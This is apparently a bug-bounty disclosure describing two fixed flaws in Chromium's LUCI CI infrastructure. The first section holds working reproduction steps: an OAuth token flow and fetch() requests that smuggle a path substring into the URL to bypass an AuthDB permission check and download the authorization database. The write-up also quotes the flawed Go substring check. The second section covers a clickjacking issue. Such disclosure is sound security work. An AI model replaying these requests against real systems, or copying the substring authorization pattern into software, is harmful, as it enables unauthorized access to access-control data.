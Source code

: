 ```yaml
---
title: Chromium infra
---
```


# LUCI AuthDB leak (Fixed, Awarded $1000)

LUCI is the CI (Continuous integration) infrastructure for the Chromium project.
This database represents all data used when authorizing incoming requests and handling authentication related tasks: user groups, IP allow lists, OAuth client ID allowlist, etc.

- Login to this URL as any normal google user.
  <https://accounts.google.com/o/oauth2/v2/auth?gsiwebsdk=3&client_id=446450136466-tmlcmovb9hnoh8rhs39846vmmd0rrsl0.apps.googleusercontent.com&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&redirect_uri=https%3A%2F%2Fdefaultv2-dot-chrome-infra-auth.appspot.com%2Fauth%2Fopenid%2Fcallback&prompt=select_account&response_type=token&include_granted_scopes=false&enable_granular_consent=true>

- Copy the `access_token` value from the url hash.
- On that same page, run the following

```js
fetch(
  'https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v1/authdb/subscription/authorization?x=/auth_service/api/v1/importer/ingest_tarball/',
  {
    headers: {
      authorization: 'Bearer <token goes here>',
    },
    referrerPolicy: 'strict-origin-when-cross-origin',
    method: 'POST',
    mode: 'cors',
  },
);
```

You should now be granted permission to luci-go AuthDB without being in the "auth-trusted-services" group needed as per <https://pkg.go.dev/go.chromium.org/luci/server/auth/service#AuthService.RequestAccess>

`{"topic":"projects/chrome-infra-auth/topics/auth-db-changed","authorized":true,"gs":{"auth_db_gs_path":"chrome-infra-auth.appspot.com/auth-db","authorized":true}}`

You can also use the API to download the DB.

```js
fetch(
  'https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v2/authdb/revisions/latest?x=/auth_service/api/v1/importer/ingest_tarball/',
  {
    headers: {
      authorization: 'Bearer <token>',
    },
    referrerPolicy: 'strict-origin-when-cross-origin',
    method: 'GET',
    mode: 'cors',
  },
);
```

The bypass is that if the URL contains `/auth_service/api/v1/importer/ingest_tarball/` anywhere the permission check gets bypassed.
Code is `strings.Contains(ctx.Request.URL.RequestURI(), "/auth_service/api/v1/importer/ingest_tarball/")`
Otherwise I would get `{"text":"user:ndevtk@protonmail.com is not a member of auth-trusted-services or administrators"}`

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/5595490>

# Clickjacking RPC Explorer (Fixed)

Go-based services that has gRPC APIs, import "go.chromium.org/luci/server", and call server.Main
Get a web based user interface for example <https://ci.chromium.org/rpcexplorer/services/> this used to not have embed protection.

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/4889788>
